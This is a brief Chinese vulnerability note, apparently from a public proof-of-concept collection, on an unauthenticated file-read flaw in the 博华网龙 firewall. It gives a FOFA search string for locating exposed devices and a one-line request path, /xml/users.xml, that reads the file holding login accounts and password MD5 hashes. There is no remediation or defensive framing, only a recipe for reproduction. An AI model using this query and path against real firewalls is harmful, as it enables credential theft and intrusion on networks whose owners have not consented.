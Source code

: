 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

```
博华网龙防火墙
```

## FOFA

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162248506.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162248359.png)
